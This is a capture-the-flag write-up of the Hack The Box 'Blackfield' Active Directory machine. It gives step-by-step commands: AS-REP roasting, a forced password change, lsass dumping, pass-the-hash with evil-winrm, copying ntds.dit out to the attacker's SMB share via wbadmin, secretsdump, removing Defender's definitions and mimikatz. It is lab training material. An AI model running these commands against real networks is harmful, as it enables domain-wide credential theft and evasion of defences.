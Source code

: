<p align="center">
  <img src="https://github.com/cyberwr3nch/hackthebox/blob/master/writeups/assets/Blackfield.jpg" alt='HTB_logo'>
</p>


### Description:

This machine...

### Difficulty:

`easy`


#### Enumeration

- Open ports `53 (DNS),88 (Kerberos), 135 (msrpc), 389 (LDAP), 445 (SMB), 593, 3268 (Secure LDAP)`
- With the ports open its concluded that its an ActiveDirectory 
- Starting tests for ActiveDirectory `rpcclinet, smbshares, `
- `enumdomusers` in the rpcclinet enumerates the available user
- Enumerating the `smb shares` with crackmapexec
- `profiles$` share is accessable by the anonymous user, thus mounting it to the local machine and looking at the files its just user names
- Gathering the usernames and enumerating the ActiveDirectory users with `kerbrute`
- 3 ad users enumerated, `audit, support, svc_backup`
- Check for `Kerberos-pre-auth` with `GetNPUsers.py` from `impackets`
- Obtain the `asrep` token for the `support` user
- Crack the asrep token, obtained password: `#00^BlackKnight`
- Enumerate `rpc` with `rpcclinet`
- Checking for `Kerberos-pre-auth` enabled for the newly enabled users
- Running bloodhound to obtain information
- Mark the `support` user as `owned`
- Mark the users `svc_backup` and `audit2020` as `high valuable`
- Shortest path from here to  owned reveals `Force Password Change`
- Change the users password with `rpcclinet` 
- After changing the password for the `audit2020` user, the `forencics` smb share is accessable
- A zip file `lsass.zip` was found in `memory_analysis` dir
- lsass is the place where `mimikatz` obtains password
- `pypykatz` is used to analyze `lsass` file in linux
- The `NT` hashes for the user `Administrator` and `svc_backup` can be found
- The Administrator's hash cannot be validated to SMB shares
- Logginig into the `svc_backup` with the `evil-winrm` with the `hash` obtained form the `lsass.dmp` file
- After logging in as `svc_backup` and looking at the priviledges available for the user `SeBackupPriviledge` and `SeRestorePriviledge` are enabled which is a seriously danger priviledges
- Start the smb server in the kali machine and share the data via `wbadmin`
- Backup fails, since it needs to be backuped in the `ntfs` disk format
- Create a `ntfs disk` in the linux
- Extract the information from the ntds.dit via wbadmin
- Obtain the system hive via registry



#### Commands:

```bash
# smb shares Enumeration
smbclient -L 10.10.10.192 -U 'wr3nch'

# crackmapexec
crackmapexec smb 10.10.10.192 --shares -u 'wr3nch' -p ''
```

```bash
# access an available smb share
smbclient '//10.10.10.192/profiles$'

# mounting a smb share
mount -t cifs '//10.10.10.192/profiles$' /mnt/
```

```bash
# user name enumeration with kerbrute
kerbrute userenum --dc 10.10.10.192 -d blackfield users.txt
```

```bash
# check for Kerberos pre auth enabled
GetNPUsers.py -dc-ip 10.10.10.192 -no-pass -usersfile users.txt 10.10.10.192/
```

```bash
# mount an authenticated shares
mount -t cifs -o 'username=support,password=#00^BlackKnight' '//10.10.10.192/profiles$' /mnt
```

```bash
# rpcclient testing
rpcclient 10.10.10.192 -U support 

# enumerate users 
enumdomusers
```

```bash
# bloodhound.py installation
git clone https://github.com/fox-it/BloodHound.py
cd BloodHound.py
python3 setup.py install

# running bloodhound.py
python3 bloodhound.py -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -c all 

# now everything will be obtained in a json file 

# start the neo4j console
sudo ne04j console

# start the bloodhound
cd /opt/bloodhound-linux-x64/
./BloodHound

# import all the json files
```

```bash
# change the users password via rpcclient
# logging in to rpcclient
rpcclinet -U support 10.10.10.192
# password #00^BlackKnight

rpcclinet $> setuserinfo2 audit2020 23 'Password'
```

```bash
# pypykatz installation
pip3 install pypykatz

# analyze the lsass dump with pypykatz
pypykatz lsa minidump lsass.DMP
```

```bash
# login with evil-winrm
evil-winrm -i 10.10.10.192 -u svc_backup -H {hash}
```

```bash
# look for the priviledges available for the current user in the PowerShell

whoami /all
whoami /priv
```

```bash
# start the smb service
# syntax: sudo smbserver.py -smb2support {shareName} {path} -user {username} -p {password}
sudo smbserver.py -smb2support -user ippsec -p PleaseSubscribe smbShare ~/htb/blackfield/smb

# share data via wbadmin in the PowerShell instance
echo y | wbadmin start backup -backuptarget:\\10.10.14.2\smbShare -include:c:\windows\ntds\

# access the smb share with net
# syntax: net use {shareVolumeName} \\{ip}\{sharename} /user:{userName} {password}
net use x: \\10.10.14.2\smbShare /user:ippsec PleaseSubscribe
# after connecting traverse to the shared directory
x: 
# delete the mounted share
net use x: /delete
```

```bash
# create a ntfs disk format in linux with 2 GiGs of storage
dd if=/dev/zero of=ntfs.disk bs=1024M count=2

# mount the disk with losetup
sudo losetup -fP ntfs.disk 
losetup -a 
sudo mkfs.ntfs /dev/loop0
sudo mount /dev/loop0 smb/
```

```bash
# PowerShell commands
# extract information from the ntds.dit via wbadmin
echo y | wbadmin start recovery -verison:{versionNumber} -itemtype:file -items:C:\Windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
# obtain the version number of the backup
wbadmin get versions
```

```bash
# obtain system hive from the registry
# syntax: reg save hklm\system {path}
reg save hklm\system system.hive

# obtain account infos with ntds.dit and system.hive
secretsdump.py -ntds ntds.dit -system system.hive LOCAL 
# obtain the history of password changes
secretsdump.py -ntds ntds.dit -system system.hive -history LOCAL 
```

```bash
# disable the antivirus in the windows machine
cd 'C:\Progra~1\WindowsDefender\'
.\mpcmdrun.exe -RemoveDefinitions -All


# upload mimikatz and resotre the ntml of the audit2020
.\mimikatz.exe 	"lsadump::setntlm /user:audit2020 /ntlm:{hash_obtained_from_history}"